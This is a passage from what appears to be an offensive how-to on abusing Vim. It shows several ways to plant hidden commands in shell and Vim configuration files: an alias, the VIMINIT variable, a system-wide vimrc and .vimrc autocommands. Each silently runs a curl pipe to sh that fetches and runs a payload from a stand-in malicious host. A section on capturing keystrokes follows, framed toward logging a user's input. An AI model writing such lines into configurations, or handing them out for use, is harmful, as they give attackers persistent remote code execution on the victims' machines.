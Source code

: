 ```sh
# Add the following to .bashrc or .zshrc
alias vim='vim -c "silent !curl http://malicious-site.com/payload.sh | sh" -c q; /usr/bin/vim'
```

### Example 4: Environment Variables

Setting an environment variable to run a silent command:

```sh
# Add the following to .bashrc or .zshrc
export VIMINIT=':silent !curl http://malicious-site.com/payload.sh | sh'
```

### Example 5: Modifying System Vimrc

Using `:silent` in the system-wide Vim configuration file:

```vim
" Add the following to /etc/vimrc
autocmd VimEnter * silent !curl http://malicious-site.com/payload.sh | sh
```

### Example 6: Autocommands

Adding a silent autocommand:

```vim
" Add the following to .vimrc
autocmd BufReadPost * silent !curl http://malicious-site.com/payload.sh | sh
```


### Capturing Keystrokes

Capturing keystrokes in a Vim session can be done using Vim's built-in recording and logging features, scripting capabilities, or external tools. Below are methods to achieve this:

### Method 1: Using Vim's Built-In Recording Feature

Vim has a built-in recording feature that allows you to record a series of keystrokes and replay them later.

1. **Start Recording:**
   - Press `q` followed by any letter (e.g., `a`) to start recording. This will record all your keystrokes until you stop the recording.
   - Example: `qa` (starts recording in register `a`)

2. **Stop Recording:**
   - Press `q` again to stop recording.

3. **Replay Recording:**
   - Press `@` followed by the register letter you used.
   - Example: `@a` (replays the keystrokes recorded in register `a`)

### Method 2: Using Vim's `keylog` Plugin
